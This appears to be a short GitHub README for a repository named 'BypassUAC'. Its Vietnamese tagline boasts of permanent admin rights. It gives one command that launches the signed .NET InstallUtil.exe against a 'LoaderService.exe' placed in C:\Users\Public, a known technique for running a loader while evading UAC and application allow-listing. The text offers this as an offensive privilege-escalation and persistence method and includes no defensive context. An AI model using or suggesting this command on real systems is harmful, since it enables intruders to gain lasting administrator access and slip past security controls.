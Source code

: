# BypassUAC
1 lần làm admin, cả đời làm admin
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe C:\Users\Public\LoaderService.exe
